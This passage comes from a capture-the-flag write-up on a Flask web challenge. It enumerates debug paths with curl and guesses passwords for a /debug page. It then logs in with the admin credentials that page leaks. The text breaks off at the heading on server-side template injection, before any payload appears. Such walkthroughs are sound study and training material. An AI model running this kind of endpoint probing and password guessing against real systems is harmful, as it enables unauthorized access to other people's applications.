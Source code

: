 This was a crucial discovery that led me to the debug functionality.

### Method 2: Directory Enumeration

I also performed directory enumeration to find common debug endpoints:

```bash
# Using common debug paths
curl -s http://challs.0x4m4.com:8081/debug
curl -s http://challs.0x4m4.com:8081/admin
curl -s http://challs.0x4m4.com:8081/test
```

The `/debug` endpoint returned a password-protected debug interface.

## Accessing the Debug Interface

The debug page at `/debug` presented a password entry form. Based on the challenge hints and the application's theme, I tried several passwords:

```bash
# Testing common debug passwords
curl -X POST -d "password=debug" http://challs.0x4m4.com:8081/debug
curl -X POST -d "password=admin" http://challs.0x4m4.com:8081/debug
curl -X POST -d "password=debug_regime_2025" http://challs.0x4m4.com:8081/debug
```

The password `debug_regime_2025` successfully unlocked the debug interface, revealing:

- System information about the Flask application
- Details about the Jinja2 template engine
- Template syntax examples
- **Warning about template injection vulnerabilities**
- Available objects in template contexts

Most importantly, it revealed the admin credentials:
- Username: `regime_admin`
- Password: `AI_controls_all_1984!`

## Gaining Administrative Access

With the discovered credentials, I logged into the admin panel:

```bash
curl -c cookies.txt -X POST \
  -d "username=regime_admin&password=AI_controls_all_1984!" \
  http://challs.0x4m4.com:8081/login
```

The admin dashboard provided access to:
- System monitoring features
- User management
- **Report generation functionality**

## Vulnerability Discovery: Server-Side Template Injection
